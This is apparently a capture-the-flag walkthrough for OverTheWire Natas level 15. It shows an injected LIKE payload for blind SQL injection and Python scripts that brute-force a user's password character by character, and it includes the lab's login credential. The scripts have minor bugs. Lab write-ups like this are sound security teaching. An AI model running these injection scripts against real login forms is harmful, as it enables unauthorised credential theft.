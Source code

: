 # Natas Level 15 → Level 16

Username: natas15 <br>
URL:      http://natas15.natas.labs.overthewire.org


## SOLUTION

- Once more we see an input form. We can now submit some text to see whether it exists as a user in the table. To check its behaviour, we try "natas16" as a user, since I assume that would be the user for the next level.
  ![image](https://github.com/DjentMachine/OverTheWire-CTF/assets/44790709/2cbb5e3d-2bfb-4024-8a2b-91be8fc71280)
  ![image](https://github.com/DjentMachine/OverTheWire-CTF/assets/44790709/b0c641f0-016a-4376-aa46-3698cf28b758)


- Checking the source code one thing immidiatly stands out: there is a commented "CREATE TABLE" statement at the beggining of the script. I assume there is a table "users" which was creted with this statement and someone lefted it here commented for little reason. I'll assume our username and password both are strings (varchar) with maximum 64 characters in length.
  ![image](https://github.com/DjentMachine/OverTheWire-CTF/assets/44790709/37e84438-0d76-4f50-a375-5d8410435456)


- Reading on, we see a simillar piece of code to the previous exercice. Only this time, instead of granting access after meeting a condition, this script simply tells us if a user exists in the users table.

- Once more, the input is poorly sanitized which allows us to inject SQL code. However, we'll need to be inventive here. Since we already know the username of interest, "natas16", we can try to fetch its password from the users table. But there seems to be no obvious way to print its contents.  
 
- I see 2 potential ways to exploit this. Either we do reconaissanse on the target to see whether we can spawn a shell through our input or we can try to bruteforce our binary response into telling us which characters comprise the password. We'll use the second approach:
  
- The server responds with either a "user exists" (1) or with a user doesn't exist (0). Knowing this, the username and a bit of regex we should be able to bruteforce our way through the password. We can try matching the user **"natas16"** and anything starting with an **"a"**. If indeed our password starts with an **a**, the server should respond with a 1. Otherwise, it responds with 0. We can iterate through all the relevant unicode characters to see which one starts our password. Our test input should be as follows:
```diff
@@                natas16" AND password like "a%"               @@
``` 
- The result is:
  
![image](https://github.com/DjentMachine/OverTheWire-CTF/assets/44790709/a1507654-606c-4e47-8f6f-18b56f38c262)

-  Alas, our password does not start with **"a"**. Let's try this for other characters. We should try doing this programmatically, since doing it by hand will just take too much time. Let's use a small python script and and design a proof of concept first:

```python

import requests
from bs4 import BeautifulSoup 
import re

#Characters to loop through 
characters = [chr(i) for i in range(32, 126)]

#POST request data
user='natas15'
password='TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'
url="http://natas15.natas.labs.overthewire.org/"

```
- We'll use BeautifulSoup as it is a good html parser and will allow us to ???. We prepare a list containiing all the unicode characters we'll want to loop through as well as the data needed for our post requests

```python

#Looping through each of the unicode characters 
for i in charList:
    if(i in ['"',"'",'#','%', '_']):
        i='\\'+i
    data={"username":"natas16\" AND BINARY password like \"%s\" #" %(i+'%')}
    myPost = requests.post(url,
                       auth=requests.auth.HTTPBasicAuth(user, password),
                       data=data)

    soup = BeautifulSoup(myPost.content, 'html5lib')
    a=soup.find('div', attrs={'id':'content'})
    b=re.split(r'<br|\n', str(a))[1]
    print("Trying character: %s" %i)
    #len=24
    if(len(b) !=24):
        print("\n We have found the letter!! fThe next letter -----> " + i)     
        break 
```

- We then try to get bruteforce the first letter of the password. We cannot forget to escape important characters such as **%**, which when used with the LIKE operator will match any character 0, 1 or multiple times. This will not help us to match the letter we want, so we escape all the annoying letters that might ruin our regex. Since we always get only 2 types of answer to our post, we can measure the length of "This user doesn't exist." and use it to end out for loop abruptly and print out the letter. The results:

  ![image](https://github.com/DjentMachine/OverTheWire-CTF/assets/44790709/1582219f-ab7a-4020-b573-9865d1f65b3e)

- All that is left is to apply this logic to the whole password. We'll get this for loop into a function and use the length ou the rejection message as a condition to return the letter. We should be able to build the password from here.
 
```python
import requests
from bs4 import BeautifulSoup 
import re

#Characters to loop through 
charList = [chr(i) for i in range(32, 126)]

#POST request data
user='natas15'
password='TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'
url="http://natas15.natas.labs.overthewire.org/"


"""
Function for looping through each character of a list
string -> password found so far. Starts with an empty string
characters -> list of characters to test 
"""
def getALetter(string, characters):
    for i in characters:
        if(i in ['"',"'",'#','%', '_']):
            i='\\'+i
        data={"username":"natas16\" AND BINARY password like \"%s\" #" %(string+i+'%')}
        myPost = requests.post(url,
                           auth=requests.auth.HTTPBasicAuth(user, password),
                           data=data)
        soup = BeautifulSoup(myPost.content, 'html5lib')
        a=soup.find('div', attrs={'id':'content'})
        b=re.split(r'<br|\n', str(a))[1]
        
        #len=24 is the length of "This user doens't exist.", the rejection message from the server 
        if(len(b) !=24):
            print(b + " -> " + i)
            return i
    return False
    

finalPass=""
while True:
    letter=getALetter(finalPass, charList)
    if letter or len(finalPass)<64:
        finalPass+=letter
    else:
        print("\nPassword -----> " + finalPass)     
        break
```

- The results:

   ![image](https://github.com/DjentMachine/OverTheWire-CTF/assets/44790709/81ae61a7-82d6-4445-9326-7eaaa2971a62)

  
